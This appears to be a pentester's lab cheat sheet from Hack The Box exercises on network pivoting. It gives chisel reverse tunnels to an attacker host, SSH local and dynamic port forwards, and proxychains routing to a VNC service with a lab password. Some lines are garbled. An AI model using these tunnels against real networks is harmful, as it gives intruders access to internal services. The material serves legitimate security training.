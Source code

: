 ```
./chisel server --reverse -p PORT ##to create a server 
 client 
client <ATTACKER_IP>:9001 R:8500:127.0.0.1:8500 ##create client
 .\chisel.exe client 10.10.17.185:9002 R:8888:localhost:8888
```



# ssh reverse tunnel
```bash
ssh -L my_port:service_IP:target_port 	ssh target ip


ssh -D 1080 -L6801:127.0.0.1:5801 -L6901:127.0.0.1:5901 charix@poison.htbb

-L # listening ports on our machine access  5801 and 5901
-D # Dynamic through proxy

```

## Inside ssh connection

```
~C
-L 4873:localhost:4873 # port forward localhost port 4873 to my machine at port 4873 
```

# Proxy chains
First we add our local host and wanted port into /etc/proxychains.conf
```bash
socks4 127.0.0.1 8081
```
Then we can use ssh to tunnel though port 8081
```bash
ssh charix@10.10.10.84 -D 8081
```

then we can use proxychains with what ever command we want using the wanted port
```bash
proxychains vncviewer 127.0.0.1:5901 -passwd secret
```